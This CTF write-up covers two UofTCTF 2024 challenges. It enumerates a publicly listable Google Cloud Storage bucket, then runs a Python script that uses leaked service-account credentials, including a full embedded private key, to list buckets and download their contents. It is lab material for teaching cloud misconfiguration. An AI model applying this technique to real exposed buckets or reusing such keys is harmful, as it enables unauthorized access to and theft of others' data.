 # Uoftctf-2024

# Out of the Bucket

Check out my flag website! Author: windex

https://storage.googleapis.com/out-of-the-bucket/src/index.html
-----------------------------------------------------------------------------------------------------------------------------
First, visit the website according to the given link:

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/c880c8f3-55c2-45e3-ade7-5c001796523f)

Basically, I first F12 checked their source to see if there was any information, but got nothing. I looked at the path with the site to see if there were any problems, specifically if I could query other files through the path ( In fact, I noticed it's similar to the static websites I build on my localhost :v). So I tried to edit its path by deleting `index.html` and reloading but I didn't get anything back, so I continued to delete `src/index.html` then gets the document tree. Here I can see the files (index.html, antwerp.jpg, guam.jpg, style.css) exported in the initial web interface and in addition there is a file `funny.json` and a path `src\dont_show.json`

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/ffd2ce42-9d07-467b-a98a-536f55d20ffe)

I access the funny.json file following its path (`secret/funny.json`) 

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/37aa62bd-66a2-4ca8-8272-2000989e8e52)

Looking at its content, I see it contains authentication information...hmmm I haven't used it for now. I proceed to access the path `src/dont_show` and my browser automatically downloaded it to my computer, then I open it with Notepad.

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/ea1c06be-cc0f-4bd4-ba5a-52a807bd8dad)

And I finally got the flag for this challenge.


# Out of the Bucket 2

This is a continuation of "Out of the Bucket". Take a look around and see if you find anything!
Author: windex
-------------------------------------------------------------------------------------------------------------------------------------------------
Next, for this challenge, I think I have to reuse the authentication information from the first challenge (funny.json file) that I haven't used yet.
I paid attention to the information fields in the file like auth_uri,token_uri,... and as well as `storage.googleapis.com` is in the site path, I searched for information related to them on the internet and got a some information about 'Google Cloud Storage with credentials'.
(`https://stackoverflow.com/questions/52808848/how-to-initialize-google-cloud-storage-with-credentials`, `https://stackoverflow.com/questions/49748910/python-download-entire-directory-from-google-cloud-storage`)

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/aafb5752-36d6-498e-8941-f3abd1ca2ea5)

Didn't disappoint me, I found a few articles on stackoverfow, and now I can get an accurate opinion on everything I was thinking. The value fields are as shown in the article, they correspond to the value fields in the file 'funny.json'.
My task now is to use the authentication information in the funny.json file to be able to access the file content stored on Google Cloud Storage.
Based on the information in the article on Stackoverflow, I wrote a python code file to access Google Cloud Storage.
```
from google.cloud import storage
from google.oauth2 import service_account

credentials_dict ={
  "type": "service_account",
  "project_id": "out-of-the-bucket",
  "private_key_id": "21e0c4c5ef71d9df424d40eed4042ffc2e0af224",
  "private_key": "-----BEGIN PRIVATE KEY-----\nMIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQDWxpWEDNiWgMzz\nxDDF64CspqiGPxkrHfhS4/PX8BrxNjUMPAH7vYHE3KbgQsmPhbCte9opnSLdMqec\nWjll8lRZGEy73xhWd2e3tVRAf53r+pW/p6MTOsz3leUkQAscG4hmOVOpGb1AkfuE\n62NErJVZIgQCowrBdFGbPxQc/IRQJKzrCFfKOWSHLvnngr4Ui5CSr6OM33dfpD+v\nQSLkEQheYCXmHwh/Wf8b27be+RzfOp/hOyjKsJOmDvFu2+rrx24t8hCptof3BYol\nUjpaiB8Qcct/HoKOEvZ/S5rW6toQizP8t4t7urC2i70JdH+Y4Qw/AZJNuLo/5wW1\n+x8i3FIDAgMBAAECggEABaGapVC06RVNdQ1tffL+d7MS8296GHWmX34B6bqDlP7S\nhenuNLczoiwVkAcQQ9wXKs/22Lp5rIpkd1FXn0MAT9RhnAIYdZlB4JY3iaK5oEin\nXn67Dt5Ze3BfBq6ghpx43L1KDUKogfs8jgVMoANVEyDfhrYsVQWDZ5T60QZp7bP2\n0zSDSACZpFzdf1vXzOhero8ykwM3keQiCIKWYkeMGsX8oHyWr1fz7AkU+pLciV67\nek10ItJUV70n2C65FgrW2Z1TpPKlpNEm8jQLSax9Bi89HuFEw8UjTfxKKzhLFXEu\nudtAyebt/PC4HS9FLBioo3bAy8vL3o00b7+raVyJQQKBgQD3IWaD5q5s7H0r10S/\n7IUhP1TDYhbLh7pupbzDGzu9wCFCMItwTEm9nYVNToKwV+YpeyoptEHQa4CAVp21\nO4+W7mBQgYemimjTtx1bIW8qzdQ9+ltQXyFAxj6m3KcuAsAzSpcHkbP46lCL5QoT\nTS6T06Fs4xvnTKtBdPeisSgiIwKBgQDee+mp5gsk8ynnp6fx0/liuO3AZxpTYcP8\nixaXLQI6CI4jQP2+P+FWNCTmEJxMaddXNOmmTaKu25S2H0KKMiQkQPuwBqskck3J\npVTHudnUuZAZWE7YPg40MJgg5OQhMVwiqGWL76FT2bubIdNm4LQyxvDeK82XQYl8\nszeOXfJeoQKBgGQqSoXdwwbtF5Lkbr4nnJIsPCvxHvIhskPUs1yVNjKjpBdS28GJ\nej37kaMS1k+pYOWhQSakJCTY3b2m3ccuO/Xd6nXW+mdbJD/jsWdVdtxvjr4MMmSy\nGiVJ9Ozm9G/mt4ZSjkKIIN0cA8ef7uSB3QYXug8LQi0O2z7trM1pZq3nAoGAMPhD\nOSMqRsrC6XtMivzmQmWD5zqKX9oAAmE26rV8bPufFYFjmHGFDq1RhdYYIPWW8Vnz\nJ6ik6ynntKJyyeo5bEVlYJxHJTGHj5+1ZnSwzpK9dearDAu0oqYjhfH7iJbNuc8o\n8sEe2E7vbTjnyBgjcZ26PJyVlvpU4b6stshU5aECgYEA7ZESXuaNV0Er3emHiAz4\noEStvFgzMDi8dILH+PtC3J2EnguVjMy2fceQHxQKP6/DCFlNqf9KUNqJBKVGxRWP\nIM1rcoAmf0sGQ5gl1B1K8PidhOi3dHF0nkYvivuMoj7sEyr9K88y69kdpVJ3J556\nJWqkWLCz8hx+LcQPfDJu0YE=\n-----END PRIVATE KEY-----\n",
  "client_email": "image-server@out-of-the-bucket.iam.gserviceaccount.com",
  "client_id": "102040203348783466577",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/image-server%40out-of-the-bucket.iam.gserviceaccount.com",
  "universe_domain": "googleapis.com"
}

credentials = service_account.Credentials.from_service_account_info(credentials_dict)
client = storage.Client( credentials=credentials) 
buckets=list(client.list_buckets())
print(buckets) # get list bucket 
bucket_flag = client.get_bucket('flag-images') #access to bucket
#bucket_flag = client.get_bucket('out-of-the-bucket')

for blob in bucket_flag.list_blobs():
	print(blob)
	filename = blob.name.replace('/', '_') 	
	blob.download_to_filename('flag/'+ filename) #download file to folder './flag'
	print("download file: {}".format(blob.name))
```
Run the code and get the following results:

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/ccdb769f-649f-4bf7-ad65-a31c0e0620ad)

To explain the code:

I access Google Cloud Storage through:
`credentials = service_account.Credentials.from_service_account_info(credentials_dict
client = storage.Client( credentials=credentials)`

Next, I got information about the existing buckets on Google Cloud Storage using `buckets=list(client.list_buckets())` as you can see in the code execution results, we have 2 buckets: `flag-images` and `out-of-the-bucket` in first line.

Next, I proceeded to access bucket `flag-images` because I also tried accessing bucket `out-of-the-bucket` before but didn't get anything of value.

Proceed to query the `blob` in the `bucket`. `blob.name` includes the entire directory structure + filename, so if you want the same file name as in the bucket, you might want to extract it first (instead of replacing `/` with `_ `)

After completing the download process, I checked the downloaded content in the 'flag' folder.

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/9048ec8d-f08d-445e-a6fa-cfd384e2ccb3)

I noticed that there is an image file '256x192_xa.png' that is different from other image files.

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/cd4458f2-ec5d-4dda-bb8a-8c44f3f74e72)

Finnally, I got the flag for this challenge!!!

----------------------------------------------------------------------------------------

Thank you for reading. In addition, there are other challenges I will update their write-ups later!. Nice CTF)))
